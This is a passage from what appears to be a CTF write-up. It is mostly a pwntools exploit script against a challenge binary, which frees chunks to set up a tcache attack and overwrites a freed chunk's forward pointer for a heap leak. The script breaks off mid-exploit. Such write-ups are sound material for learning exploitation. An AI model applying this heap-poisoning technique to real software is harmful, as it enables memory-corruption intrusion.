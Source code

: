 ```python
s.interactive()
```
## exp2
```python
# ubuntu20。04 libc-2.31.so
from pwn import *

#context(os='linux', arch='amd64')
context.log_level = 'debug'
context.terminal = ['/usr/bin/tmux','sp','-h']

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
  s = process(BINARY)
  libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  # libc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

def Exit():
  s.sendlineafter("> ", "6")

for i in range(15): #0-14
  Add(chr(0x41+i)*8, i)

# tcache attack
Delete(2) 
Delete(1) 


# Heap Leak
Edit(0, "a"*0x28+p64(0x21)+p64(0x602100), 0) # modify 1st->fd = 0x602100(bss)

Add("a", 4) 
```